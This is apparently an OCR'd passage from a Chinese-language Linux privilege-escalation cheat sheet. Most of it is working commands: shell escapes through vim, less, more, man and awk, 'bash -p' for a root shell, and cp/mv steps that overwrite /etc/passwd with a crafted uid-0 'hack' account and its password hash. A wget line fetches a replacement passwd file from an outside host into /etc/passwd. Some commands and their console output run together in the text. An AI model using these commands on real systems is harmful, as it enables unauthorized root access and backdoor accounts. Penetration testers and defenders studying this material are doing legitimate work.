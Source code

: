 :set shell=/bin/sh:shell

或者

sudo vim -c ‘!sh’

**bash**

**以下命令将以** root ****身份打开一个**** bash shell**。**

bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

**less**

程序 Less 也可以执行提权后的 shell。同样的方法也适用于其他许多命令。

less /etc/passwd!/bin/sh

**more**

more /home/pelle/myfile!/bin/bash

**cp**

覆盖 /etc/shadow 或 /etc/passwd

```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash

```

**mv**

覆盖 /etc/shadow 或 /etc/passwd

```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash

```

**nano**

nano  /etc/passwd

**awk**

awk ‘BEGIN {system(“/bin/sh”)}’

**man**

man passwd!/bin/bash

**wget**

wget http://192.168.56.1:8080/passwd -O /etc/passwd
